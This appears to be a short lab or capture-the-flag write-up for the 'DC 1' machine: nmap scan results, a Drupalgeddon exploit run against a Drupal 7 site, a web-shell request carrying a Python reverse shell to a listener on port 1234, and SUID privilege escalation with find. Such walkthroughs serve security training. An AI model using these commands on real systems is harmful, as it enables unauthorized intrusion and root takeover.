

# DC 1

***

IP=192.168.240.193

## NMAP

| PORT      | STATE | SERVICE |
| --------- | ----- | ------- |
| 22/tcp    | open  | ssh     |
| 80/tcp    | open  | http    |
| 111/tcp   | open  | rpcbind |
| 46232/tcp | open  | unknown |

```perl
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Welcome to Drupal Site | Drupal Site
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-generator: Drupal 7 (http://drupal.org)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          46232/tcp   status
|   100024  1          48086/tcp6  status
|   100024  1          53990/udp   status
|_  100024  1          57904/udp6  status
46232/tcp open  status  1 (RPC #100024)
```

## Drupalgeddon

```bash
/usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.240.193/
```


<figure><figcaption></figcaption></figure>

```bash
http://192.168.240.193/shell.php?c=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.223%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

```bash
nc -lvnp 1234
```

## PrivEsc

### SUID

```bash
find / -perm -4000 2>/dev/null
```

```bash
/usr/bin/find . -exec /bin/sh \; -quit
```
